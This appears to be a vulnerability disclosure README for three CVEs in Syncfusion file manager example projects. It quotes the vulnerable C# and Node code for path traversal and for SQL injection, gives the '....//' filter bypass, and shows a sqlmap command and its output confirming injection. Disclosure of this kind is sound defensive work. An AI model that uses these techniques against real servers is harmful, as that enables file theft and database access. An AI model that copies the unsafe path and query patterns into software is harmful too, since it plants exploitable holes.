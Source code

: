 The vendor has reportedly fixed all vulnerabilities detailed as of releases made after 2024. Ruptura InfoSecurity has not verified that these fixes are complete. 

See vendor comments in https://github.com/RupturaInfoSec/CVE-2023-26563-26564-26565/issues/1.

# CVE-2023-26563 - Local File Read in ASPCore Filemanager

Affected repository: https://github.com/SyncfusionExamples/ej2-aspcore-file-provider/
Vulnerable versions before Git commit 7c8791084ff86d4a2c225756c490591f6e011a6c

The application fails to verify any of the paths provided by the user. As a result, it's possible to specify directory traversal sequences ("../") to list files in any directory, read any local file, upload any file to anywhere on the server and delete any file on the server.

In the ASP core repository, most of the actual functionality is implemented in `Models/PhysicalFileProvider.cs`.

In the case of downloading, the `names` parameter is taken directly from the user's input in the request.

```csharp
        public virtual void Download(string path, string[] names, params FileManagerDirectoryContent[] data)
        {
            try
            {
                string physicalPath = GetPath(path);
                String extension;
                int count = 0;
                ...
                if (names.Length > 1)
                    DownloadZip(path, names);

                if (count == names.Length)
                {
                    DownloadFile(path, names);
                }
```

This path is then directly used within the Path.combine function.

```csharp
protected virtual void DownloadFile(string path, string[] names = null)
{

    if (!string.IsNullOrEmpty(path))
    {
        try
        {
            path = (Path.Combine(contentRootPath + path, names[0]));
            HttpResponse response = HttpContext.Current.Response;
            response.Buffer = true;
            response.Clear();
            response.ContentType = "APPLICATION/octet-stream";
            string extension = System.IO.Path.GetExtension(path);
            response.AddHeader("content-disposition", string.Format("attachment; filename = \"{0}\"", System.IO.Path.GetFileName(path)));
            response.WriteFile(path);
            response.Flush();
            response.End();
        }
        catch (Exception ex) { throw ex; }
    }
    else throw new ArgumentNullException("name should not be null");

}
```

In most of the endpoints, they attempted to fix this with removing `../` but this can be trivially bypassed using something like `....//`, which after `.replace("../", "")`, will result in the original `../`.

# CVE-2023-26564 - Local File Read in EJ2 Node Filemanager

Affected repository: https://github.com/SyncfusionExamples/ej2-filemanager-node-filesystem
Vulnerable versions before Git commit 65bc929e34aa34a3a9db0dc1cc9cba03e19ba9e6

While the application does contain a regex to block directory traversal sequences, it does this only sometimes. As a result:
- On Windows, it's possible to list files in any directory, read any local file, upload any file to anywhere on the server and delete any file on the server.
- On Linux, it is not possible to list files within a directory. However, as it is possible to download directories (which are then served as ZIP), it is possible for a user to download directories to list other files.

In the node repository, all functionality is offered within a single file:
https://github.com/SyncfusionExamples/ej2-filemanager-node-filesystem/blob/65bc929e34aa34a3a9db0dc1cc9cba03e19ba9e6/filesystem-server.js

For downloading files, the root cause is fairly self explanatory, with the application trusting the user's input when concatenating the file paths together:

```js
/**
 * Download a file or folder
 */
app.post('/Download', function (req, res) {
    replaceRequestParams(req, res);
    var downloadObj = JSON.parse(req.body.downloadInput);
    var permission; var permissionDenied = false;
    downloadObj.data.forEach(function (item) {
        var filepath = (contentRootPath + item.filterPath).replace(/\\/g, "/");
        permission = getPermission(filepath + item.name, item.name, item.isFile, contentRootPath, item.filterPath);
        if (permission != null && (!permission.read || !permission.download)) {
            permissionDenied = true;
            var errorMsg = new Error();
            errorMsg.message = (permission.message !== "") ? permission.message : getFileName(contentRootPath + item.filterPath + item.name) + " is not accessible. You need permission to perform the download action.";
            errorMsg.code = "401";
            response = { error: errorMsg };
            response = JSON.stringify(response);
            res.setHeader('Content-Type', 'application/json');
            res.json(response);
        }
    });
    if (!permissionDenied) {
        if (downloadObj.names.length === 1 && downloadObj.data[0].isFile) {
            var file = contentRootPath + downloadObj.path + downloadObj.names[0];
            res.download(file);
        } else {
            var archive = archiver('zip', {
                gzip: true,
                zlib: { level: 9 } // Sets the compression level.
            });
            var output = fs.createWriteStream('./Files.zip');
            downloadObj.data.forEach(function (item) {
                archive.on('error', function (err) {
                    throw err;
                });
                if (item.isFile) {
                    archive.file(contentRootPath + item.filterPath + item.name, { name: item.name });
                }
                else {
                    archive.directory(contentRootPath + item.filterPath + item.name + "/", item.name);
                }
            });
```

# CVE-2023-26565 - SQL Injection in SQL Server Database File Provider

Affected repository: https://github.com/SyncfusionExamples/sql-server-database-aspcore-file-provider
Vulnerable versions before Git commit d671e09d0cfddb8e3c87f172d8a9ca4caf5980a6

In the SQL server repository, most of the actual functionality is implemented in `Models/SQLFileProvider.cs`.

The SQL injection is fairly standard and frequent within the affected repository and can be exploited with a simple `sqlmap` command:

```
sqlmap -u 'http://localhost:9999/api/SQLProvider/SQLGetImage?path=1/&id=9225&time=1680527844871'

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:31:52 /2023-04-03/

[14:31:52] [INFO] testing connection to the target URL
[14:31:52] [INFO] testing if the target URL content is stable
[14:31:53] [INFO] target URL content is stable
[14:31:53] [INFO] testing if GET parameter 'path' is dynamic
[14:31:53] [WARNING] GET parameter 'path' does not appear to be dynamic
[14:31:54] [WARNING] heuristic (basic) test shows that GET parameter 'path' might not be injectable
[14:31:55] [INFO] testing for SQL injection on GET parameter 'path'
[14:31:55] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:31:57] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:31:57] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[14:31:57] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[14:31:57] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[14:31:58] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[14:31:58] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[14:31:58] [INFO] testing 'Generic inline queries'
[14:31:58] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[14:31:58] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[14:31:58] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[14:31:58] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:31:58] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[14:31:59] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[14:31:59] [INFO] testing 'Oracle AND time-based blind'

it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n]
[14:32:00] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[14:32:00] [WARNING] GET parameter 'path' does not seem to be injectable
[14:32:00] [INFO] testing if GET parameter 'id' is dynamic
[14:32:00] [WARNING] GET parameter 'id' does not appear to be dynamic
[14:32:00] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[14:32:01] [INFO] testing for SQL injection on GET parameter 'id'
[14:32:01] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:32:01] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
```

Examples of vulnerable code snippets:

```csharp
try
{
    SqlDataReader reader = (new SqlCommand(("select ItemID from " + this.tableName + " where ParentID='" + rootId + "'"), sqlConnection)).ExecuteReader();
    while (reader.Read()) { isRoot = reader["ItemID"].ToString(); }
}
```

```csharp
try
{
    SqlDataReader reader = (new SqlCommand(("select ParentID from " + this.tableName + " where ItemID='" + data[0].Id + "'"), sqlConnection)).ExecuteReader();
    while (reader.Read()) { parentID = reader["ParentID"].ToString(); }
}
```

SQL injection results in full read access to the database with regards to however permissions are configured for the user account.
